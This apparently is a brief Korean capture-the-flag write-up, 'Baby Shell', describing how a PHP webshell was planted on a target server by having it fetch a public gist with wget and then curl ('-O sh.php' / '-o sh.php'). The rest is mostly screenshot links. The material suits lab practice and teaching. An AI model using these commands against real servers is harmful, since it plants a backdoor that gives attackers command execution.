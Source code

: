 # Baby Shell

# 1. Wget을 이용한 웹쉘 업로드

Simple webshell 검색

![Untitled](https://user-images.githubusercontent.com/37824335/223037903-7b634404-ff77-4ec6-ba91-f24c2303d425.png)

https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php

해당 주소를 다음과 같이 입력하면 서버에 웹쉘이 업로드 된다.

```python
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php -O sh.php
```

![Untitled 1](https://user-images.githubusercontent.com/37824335/223038133-6e8eeee0-8b27-48be-a5c2-f2c32b49a0f8.png)

---

![Untitled 2](https://user-images.githubusercontent.com/37824335/223038169-ac29b2a6-e944-440c-bbfb-d8002fd7afef.png)

---

![Untitled 3](https://user-images.githubusercontent.com/37824335/223038189-b827d64d-43d3-4fe1-9939-e277311c02c9.png)

---

![Untitled 4](https://user-images.githubusercontent.com/37824335/223038212-f7577a6c-75bc-45be-8176-42ae140eaa7a.png)

---

# 2. curl을 이용한 웹쉘 업로드

```python
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php -o sh.php
```

---

![Untitled 5](https://user-images.githubusercontent.com/37824335/223038261-068eea75-2ba8-43da-8624-0dcf5f99bae0.png)

---

![Untitled 6](https://user-images.githubusercontent.com/37824335/223038390-686bdaea-5ba9-4d0b-bf32-a870c805ae60.png)

---

![Untitled 7](https://user-images.githubusercontent.com/37824335/223038407-d3eeed40-8b1b-4595-812f-c0b04ad611c5.png)

---
